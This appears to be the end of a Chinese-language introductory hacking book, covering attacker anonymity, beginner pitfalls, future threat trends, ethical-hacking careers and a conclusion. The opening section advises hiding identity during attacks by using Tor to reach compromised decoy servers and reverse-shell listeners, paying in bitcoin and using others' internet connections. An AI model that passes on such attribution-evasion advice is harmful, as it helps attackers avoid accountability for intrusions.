不要将 `Whonix` 用于个人事务——即正常的、日常的计算机活动。你不想承担个人信息被用来识别你自己的风险。

避免使用 `Tor` 出口节点进行直接攻击，因为它们很慢、被列入名单，并且无法接收反向 shell（reverse shells）所需的连接回。`Tor` 能够为你用于执行攻击的基础设施提供匿名连接（这些基础设施包括用作诱饵的被破服务器、用于接收反向 shell 的稳定服务器以及干净域名）。你与基础设施之间的连接将是低带宽文本接口 (`SSH`)，这将使你对任何目标系统或网络开启高带宽连接。

在购买黑客工具时使用 `bitcoins`，例如域名注册服务器、匿名 `VPN` 和虚拟专用服务器。使用个人信用卡支付此类费用是非常愚蠢的。务必确保将你的个人身份与你从事的任何黑客活动离开来。

`Tor` 可能是保持流量匿名的很好的解决方案，但仍建议使用与你的姓名或地址无关的连接。你甚至可以使用被称为“cantenna”的设备借用别人的互联网连接。`Tor` 过去曾受到攻击，因此你应该考虑增加额外的安全层。

将以下几点视为黑客行为的忌，特别是对于初学者。

不要落入任何提供黑客软件或以货币换取邮箱 ID 的网站。这些是针对新手和想当黑客者的诈骗网站。他们会拿走你的钱，给你的任何东西都是不起作用。

不要在互联网上作为免费软件下载 `Trojans` 和 `keyloggers`。这类软件并不是免费的，你可能最终允许另一个黑客进入你的系统。


不要满足于仅拥有一项技能，例如 Web 开发或编程。成为一名伟大的黑客需要你成为一名出色的程序员、开发者、安全专家和脚本编写人员。

# 第 14 章：预测黑客的未来

在当今世界中，成为一名 IT 专业人士非常艰辛。技术进步的速度让现有的边界安全解决方案看起来像筛子一样。跟上不断增加的新型威胁似乎是最好的方法，但实际上，放慢速度可能是一个更佳的主意。

大多数人假设，网络安全面临的最大威胁将来自新的或未知的漏洞。然而，专家们一致认为，事实上，这些威胁将源于为人知的弱点。这些漏洞与一些在世界范围内获得更多认可、流行和使用的当前技术有关。

这些构成黑客未来的一些当前技术趋势包括：

## 云计算

随着越来越多的组织和企业转向云端，黑客也也将注意力转向攻击云计算平台。市场对渗透测试等方法的需求日益增长，以便在云计算威胁发生之前对其进行识别。企业也在寻求开发应对措施以防止此类攻击。

黑客安全团队在面对云应用面临的挑战是其可见性有限且控制选项较少。众周知，未来的网络攻击将发生在所谓的“影子数据/IT”（Shadow Data/IT）中。这是在云上进行未经监控、控制或保护的数据或 IT 活动。影子数据/IT 导致了新威胁向量的产生，包括数据的滥用和最终泄露，并允许恶意黑客轻松访问系统或网络。

为了让组织和企业处理影子数据/IT，他们必须制定企业策略，要求员工改变他们在云上使用数据的方式。文化转变需要从检测和惩罚转向接受和保护。

组织要监管员工的云活动非常困难，但他们可能不必这样做极端。至少应该有监控不同云服务上影子数据/IT 的技术，以便通过可见性降低风险。

## 移动设备与平台

今天，几乎每个系统或应用程序都可以通过任何移动设备、平台或浏览器访问。这导致黑客客转向这些新目标。近年来，移动黑客工具的性激增。

## 新漏洞

恶意黑客在寻找新漏洞以利用并破解网络方面永不疲倦。新漏洞的示例包括：

- `Heartbleed CVE-2014-0160`
- `Shellshock CVE-2014-6271`
- `Poodle CVE-2014-3566`

## 黑客的职业机会

随着当今飞速发展的数字世界威胁不断增加，人们担心恶意黑客可以随心所欲随时随地攻击。这意味着最佳解决方案是雇佣道德黑客不断寻找薄弱环节并开发适当的应对措施。这就是道德黑客的工作。

对道德黑客专业人员的需求每天都在增长，无论是来自政府还是商业企业。任何渴望成为道德黑客的人都需要考虑获得认证并成为专业人士——认证的道德黑客（CEH）。薪水非常优厚，每项任务平均收入 15,000 到 45,000 美元。客户环境对薪酬也有影响。道德黑客认证的最新版本是 `CEH v9`。

一些要求包括 IT 经验、`Linux/UNIX` 基础以及对 `TCP/IP` 的良好理解。如果你想把黑客作为职业，这绝对是考虑的。

# 结论

显而易见，黑客是一个大多数人并不真正理解的话题。原因之一是媒体及其倾向于戏剧化黑客的方式，从而导致了更多的错误信息和误解。任何打算接触黑客技术的人必须首先改变心态。

尽管黑客被描绘成犯罪活动，但它包含了大量的知识和有益使用的巨大潜力。事实是，今天使用的许多甚至所有软件和网络都有可以被利用的漏洞。技术正以非常快的速度移动，随着行业利润的增加，少数坏元素试图破坏系统来获利。

这就是为什么道德黑客很重要。他们仍然是黑客，但他们这样做是为了帮助系统和网络在受到攻击时更加安全。遗憾的是，法律是使黑客变得困难的因素之一。它不分地将黑客行为犯罪化，而没有意识到未来会有无数漏洞被利用。那些旨在防止人们研究他们日常生活中使用的系统的法律是严酷且毫无帮助的。

我们希望这本书能开你的眼界，让你看到黑客技术的巨大潜力、技巧以及学习它的重要性。随着技术的进步，你也必须提高自己的技能。我们与你分享的知识只是这段漫漫之旅的起点。你必须决定继续学习、努力并跳出思维框架。应用书中的知识，永不回头。

感谢阅读本书。祝你好运！

